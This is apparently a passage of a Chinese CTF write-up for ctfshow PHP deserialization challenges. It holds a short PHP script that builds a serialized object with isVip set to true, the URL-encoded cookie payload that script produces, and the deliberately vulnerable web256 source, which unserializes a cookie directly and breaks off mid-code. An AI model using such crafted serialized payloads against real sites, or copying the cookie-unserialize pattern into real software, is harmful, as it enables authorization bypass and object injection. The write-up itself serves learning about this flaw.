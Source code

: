 这一题也比较基础，要点在于`$user = unserialize($_COOKIE['user']);`
并且原本的代码逻辑中也没有将`isVip`修改为1的方法，所以我们也就得自己传进去一个`isVip`为1的对象

要构造这个序列化，只要将原本的类放进我们本地的php运行器中序列化运行一下即可，类中的方法可以去掉不会影响
```php
<?php  
class ctfShowUser{  
    public $username='xxxxxx';  
    public $password='xxxxxx';  
    public $isVip=true;  
}  
echo urlencode(serialize(new ctfShowUser()));  
?>
```
注意这里是利用cookie传进去的数据，要进行一次url编码

得到数据：
```
O%3A11%3A%22ctfShowUser%22%3A3%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A8%3A%22password%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A5%3A%22isVip%22%3Bb%3A1%3B%7D
```

我们将其放进请求头中即可
![Pasted image 20240929224700.png](/img/user/picture/Pasted%20image%2020240929224700.png)

# web256



```php
<?php  
  
error_reporting(0);  
highlight_file(__FILE__);  
include('flag.php');  
  
class ctfShowUser{  
    public $username='xxxxxx';  
    public $password='xxxxxx';  
    public $isVip=false;  
  
    public function checkVip(){  
        return $this->isVip;  
    }  
    public function login($u,$p){  
        return $this->username===$u&&$this->password===$p;  
    }  
    public function vipOneKeyGetFlag(){  
        if($this->isVip){  
            global $flag;  
            if($this->username!==$this->password){  
                    echo "your flag is ".$flag;  
              }  
        }else{  
            echo "no vip, no flag";  
        }  
    }  
}  
  
$username=$_GET['username'];  
$password=$_GET['password'];  
  
if(isset($username) && isset($password)){    $user = unserialize($_COOKIE['user']);      
    if($user->login($username,$password)){  
        if($user->checkVip()){            $user->vipOneKeyGetFlag();  
```